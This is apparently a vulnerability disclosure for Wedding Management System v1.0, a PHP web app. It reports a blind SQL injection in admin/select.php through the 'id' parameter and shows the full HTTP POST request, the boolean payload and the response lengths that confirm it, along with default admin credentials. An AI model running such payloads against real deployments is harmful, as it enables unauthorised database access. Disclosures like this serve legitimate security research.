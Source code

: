 # Wedding Management System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/select.php

Vulnerability location: /Wedding-Management/admin/select.php,id

[+] Payload: id=1 and length(database()) =9 // Leak place ---> id

Current database name: dbwedding,length is 9

```sql
POST /Wedding-Management/admin/select.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

id=1 and length(database()) =9
```

When length (database ()) = 8, Content-Length: 397

![image](https://user-images.githubusercontent.com/54017627/167994575-97715a69-9954-49c5-b432-6d3a8ec1d4c8.png)

![image](https://user-images.githubusercontent.com/54017627/167994398-25fcaa80-81ea-41e2-954b-80174f08ec79.png)

When length (database ()) = 9, Content-Length: 909

![image](https://user-images.githubusercontent.com/54017627/167994605-88fdc305-f19a-434f-8b94-b545db6e8951.png)

![image](https://user-images.githubusercontent.com/54017627/167994376-97dbd3bc-401a-4bcb-947f-5891e3e931db.png)

